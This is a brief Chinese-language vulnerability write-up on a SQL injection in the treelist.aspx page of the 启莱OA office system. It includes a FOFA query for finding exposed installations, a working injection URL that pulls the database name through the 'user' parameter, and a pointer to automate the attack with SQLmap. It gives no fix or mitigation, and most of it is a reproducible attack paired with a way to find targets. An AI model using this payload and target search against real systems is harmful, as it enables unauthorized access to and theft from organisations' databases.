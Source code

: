 # 启莱OA treelist.aspx SQL注入漏洞

## 漏洞描述

启莱OA treelist.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> 启莱OA

## FOFA

> app="启莱OA"

## 漏洞复现

登录页面如下

![1-1](resource/启莱OA/1-1.png)

存在SQL注入的文件为 treelist.aspx

```
http://xxx.xxx.xxx.xxx/client/treelist.aspx?user=' and (select db_name())>0--&pwd=1
```

![ql-4](resource/启莱OA/ql-4.png)

使用SQLmap对参数 user 进行注入

![ql-5](resource/启莱OA/ql-5.png)